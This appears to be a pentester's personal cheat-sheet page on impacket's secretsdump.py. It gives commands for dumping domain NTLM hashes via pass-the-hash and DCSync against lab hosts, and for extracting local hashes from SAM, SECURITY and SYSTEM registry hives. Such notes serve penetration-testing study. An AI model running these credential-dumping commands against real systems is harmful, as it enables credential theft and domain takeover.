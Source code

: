 ```yaml
---
title: secretsdump.py - A module from impacket
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
```

# secretsdump.py


 Performs various techniques to dump hashes from the remote machine without executing any agent there.  For SAM and LSA Secrets (including cached creds) we try to read as much as we can from the registry and then we save the hives in the target system  (%SYSTEMROOT%\\Temp dir) and read the rest of the data from there.

https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py

```
# Dumping NTDS with SecretsDump
secretsdump.py inlanefreight/administrator@192.168.195.204 -hashes ad3b435b51404eeaad3b435b51404ee:e4axxxxxxxxxxxxxxxx1c88c2e94cba2 -just-dc-ntlm

# Use this TGT with secretsdump.py to perform a DCSYnc and retrieve one or all of the NTLM password hashes for the domain.
secretsdump.py -just-dc-user $domain/administrator -k -no-pass "$hostName"@$hostName.$domain
# Example:
# secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

# Another example of dumpling NTDS with SecretsDump
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```


#### Retrieving Hashes using Secretsdump.py

Why do we care about a virtual hard drive (especially Windows)? If we can locate a backup of a live machine, we can access the `C:\Windows\System32\Config` directory and pull down the `SAM`, `SECURITY` and `SYSTEM` registry hives. We can then use a tool such as [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) to extract the password hashes for local users.

```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

